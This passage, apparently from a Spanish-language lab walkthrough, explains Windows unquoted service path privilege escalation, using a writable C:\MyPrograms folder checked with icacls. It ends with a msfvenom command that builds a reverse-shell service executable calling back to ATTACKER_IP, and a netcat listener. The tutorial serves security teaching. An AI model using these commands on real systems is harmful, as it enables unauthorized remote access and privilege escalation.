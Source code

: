 Esto tiene que ver con cómo el símbolo del sistema analiza un comando. Normalmente, cuando envía un comando, los espacios se utilizan como separadores de argumentos, a menos que formen parte de una cadena entrecomillada. Esto significa que la interpretación "correcta" del comando sin comillas sería ejecutar `C:\\MyPrograms\\Disk.exe`y tomar el resto como argumentos.

En lugar de fallar como probablemente debería, SCM intenta ayudar al usuario y comienza a buscar cada uno de los binarios en el orden que se muestra en la tabla:

1. Primero, busque `C:\\MyPrograms\\Disk.exe`. Si existe, el servicio ejecutará este ejecutable.
2. Si este último no existe, buscará `C:\\MyPrograms\\Disk Sorter.exe`. Si existe, el servicio ejecutará este ejecutable.
3. Si este último no existe, buscará `C:\\MyPrograms\\Disk Sorter Enterprise\\bin\\disksrs.exe`. Se espera que esta opción funcione correctamente y normalmente se ejecutará en una instalación predeterminada.

A partir de este comportamiento, el problema se hace evidente. Si un atacante crea cualquiera de los ejecutables que se buscan antes del ejecutable del servicio esperado, puede obligar al servicio a ejecutar un ejecutable arbitrario.

Si bien esto suena trivial, la mayoría de los ejecutables del servicio se instalarán de `C:\Program Files`forma `C:\Program Files (x86)`predeterminada, lo que los usuarios sin privilegios no pueden escribir. Esto evita que se explote cualquier servicio vulnerable. Hay excepciones a esta regla: - Algunos instaladores cambian los permisos de las carpetas instaladas, haciendo que los servicios sean vulnerables. - Un administrador podría decidir instalar los archivos binarios del servicio en una ruta no predeterminada. Si ese camino es escribible en todo el mundo, la vulnerabilidad puede explotarse.

En nuestro caso, el administrador instaló los archivos binarios del Disk Sorter en formato `c:\MyPrograms`. De forma predeterminada, hereda los permisos del `C:\`directorio, lo que permite a cualquier usuario crear archivos y carpetas en él. Podemos comprobar esto usando `icacls`:

```shell-session
C:\>icacls c:\MyPrograms
c:\MyPrograms NT AUTHORITY\SYSTEM:(I)(OI)(CI)(F)
              BUILTIN\Administrators:(I)(OI)(CI)(F)
              BUILTIN\Users:(I)(OI)(CI)(RX)
              BUILTIN\Users:(I)(CI)(AD)
              BUILTIN\Users:(I)(CI)(WD)
              CREATOR OWNER:(I)(OI)(CI)(IO)(F)

Successfully processed 1 files; Failed processing 0 files
```

El `BUILTIN\\Users`grupo tiene privilegios **AD** y **WD** , lo que permite al usuario crear subdirectorios y archivos, respectivamente.

El proceso de crear un fichero malicioso de servicio .exe con msfvenom y transferirla al host de destino es el mismo que antes, así que siéntase libre de crear el siguiente fichero y cargarla en el servidor como antes. También iniciaremos un oyente para recibir el shell inverso cuando se ejecute:

```shell-session
user@attackerpc$ msfvenom -p windows/x64/shell_reverse_tcp LHOST=ATTACKER_IP LPORT=4446 -f exe-service -o rev-svc2.exe

user@attackerpc$ nc -lvp 4446
```
